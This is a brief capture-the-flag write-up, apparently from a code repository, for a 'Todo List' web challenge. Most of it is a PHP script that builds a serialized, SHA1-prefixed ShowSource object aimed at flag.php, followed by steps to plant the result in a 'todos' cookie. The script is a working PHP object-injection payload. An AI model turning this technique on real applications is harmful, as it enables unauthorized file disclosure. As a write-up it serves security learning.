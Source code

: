 # Todo List by Om Honrao @Om12



====================================================

# This challenge comes in web category.

# PHP Object Injection needed here.

PHP Serialisation here means, we can inject arbitrary code by pointing the "Show code" class to flag.php.

# This will need php scripting.

I got help from this write up:- 

https://hack.more.systems/writeup/2016/10/02/tumctf-web50/

# Note:- You can't directly copy paste the code from there it needs modifications.

I made some changes and got this script:- 

```php
<?php 

Class ShowSource{
    public function __toString()
    {
        return highlight_file($this->source, true);
    }
}


$foo = new ShowSource();
$foo->source = 'flag.php';

$bar = [];
$bar[] = $foo;

$m = serialize($bar);
$h = sha1($m);

echo urlencode($h.$m);

?>
```
You need to run the code (I executed it online) and you will get a string.

Which is what we need.

Add a cookie named `todos` with the value as the string you got after executing the php code.

Now just refresh...you get the flag...xD

